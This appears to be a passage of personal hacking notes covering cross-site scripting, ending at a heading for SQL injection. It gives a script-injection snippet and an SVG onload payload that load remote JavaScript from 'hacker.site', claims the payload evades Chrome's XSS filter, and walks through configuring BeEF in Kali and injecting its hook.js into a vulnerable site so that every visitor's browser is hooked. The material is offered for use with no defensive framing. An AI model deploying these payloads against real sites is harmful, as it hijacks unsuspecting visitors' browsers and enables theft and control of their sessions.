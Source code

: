 Browser console:
```
var s = document.createElement('SCRIPT');
s.src = '//hacker.site/alert.js';
document.body.appendChild(s);
```

- now we copy the 3 lines to a onload script in the URL browser

```
"><svg/onload="var s = document.createElement('SCRIPT');s.src = '//hacker.site/alert.js';document.body.appendChild(s);">         "
```

> It can bypass browsers like chrome that has a anti-XSS system. 
Cause DOM attack is executed in the client-side



## beEF Attack
in Kali:
```
cd /etc/beef-xss/
nano config.yaml
take the '#' of the permitted_ui_subnet
take the '#' of the permitted_hooking_subnet
change the listening port to '80' or '443'
set user and password For the interface if u want
```

- Kali Linux > System Services > BeEF > beef start

or

```
cd /usr/share/beef-xss
./beef
copy the UI URL to the browser
```

Go to a vulnerable site and inject the hook.js from the beef:

```
<script src="http://<kali ip>:80/hook.js"></script>
```

- the website is hooked, now anyone that access this site, will be hooked too and we can access via beef browser

> Enjoy all the option beef provides

```
./beef -x 
// to open a completly new session
```




# SQL Injection
